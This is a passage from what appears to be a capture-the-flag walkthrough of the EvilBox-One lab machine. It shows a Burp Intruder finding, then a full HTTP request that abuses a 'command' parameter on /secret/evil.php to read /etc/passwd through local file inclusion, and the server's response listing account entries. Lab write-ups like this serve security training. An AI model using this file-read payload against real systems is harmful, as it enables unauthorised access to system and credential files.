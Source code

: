 ![burp intruder result](/images/evilboxone_intruder2.png)

> Yes! it seems that `command` is a valid parameter which can be used to read files on the target system.
{: .prompt-info }

### request `/etc/passwd`
```http
GET /secret/evil.php?command=/etc/passwd HTTP/1.1
Host: 192.168.76.212
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### response `/etc/passwd`
```http
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 19:11:39 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 1398
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```